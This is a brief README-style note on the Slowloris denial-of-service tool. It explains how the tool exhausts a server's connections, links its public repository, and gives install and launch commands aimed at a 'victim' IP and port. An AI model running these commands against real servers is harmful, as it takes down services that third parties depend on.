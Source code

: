 # Slowloris DOS Attack

Slowloris is a denial-of-service attack program which allows an attacker to overwhelm a targeted server by opening and maintaining many simultaneous HTTP connections between the attacker and the target.

https://github.com/gkbrk/slowloris.git


or 

```
sudo pip3 install slowloris

slowloris example.com

```

`python3 slowloris.py <IP of victim> -s <port of service> `
